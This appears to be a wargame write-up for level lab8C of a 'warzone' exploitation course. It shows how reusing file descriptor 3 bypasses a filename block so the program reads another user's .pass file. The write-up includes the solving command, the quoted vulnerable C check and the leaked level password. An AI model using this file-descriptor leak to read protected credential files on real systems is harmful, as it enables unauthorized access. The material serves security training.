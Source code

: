 # lab8C
> After the first three standard file descriptors, each additional file descriptor will be increased by one.(e.g. 3, 4, 5, etc.). 
> http://www.phearless.org/istorija/razno/fdleak.txt

### Solution
```bash
lab8C@warzone:/levels/lab08$ ./lab8C -fn=/home/lab8B/.pass -fd=3
"<<<For security reasons, your filename has been blocked>>>" is lexicographically equivalent to 
"3v3ryth1ng_Is_@_F1l3"
```

### Description
File descriptor: 
```sh
fd = 3
```
bypasses:
```c
if(fd1 == 0 || fd2 == 0)
	{
		printf("Invalid fd argument.\n");
		printf("(We're still fixing some bugs with using STDIN.)\n");
		printf("Usage: %s {-fn=<filename>|-fd=<file_descriptor>} {-fn=<filename>|-fd=<file_descriptor>}\n", argv[0]);
		return EXIT_FAILURE;
	}
```

Duplication:
```sh
lab8C@warzone:/levels/lab08$ echo 'ABCDE_123' > /var/tmp/abc2.txt && ./lab8C -fn=/var/tmp/abc2.txt -fd=3
"ABCDE_123
" is lexicographically equivalent to "ABCDE_123
"
```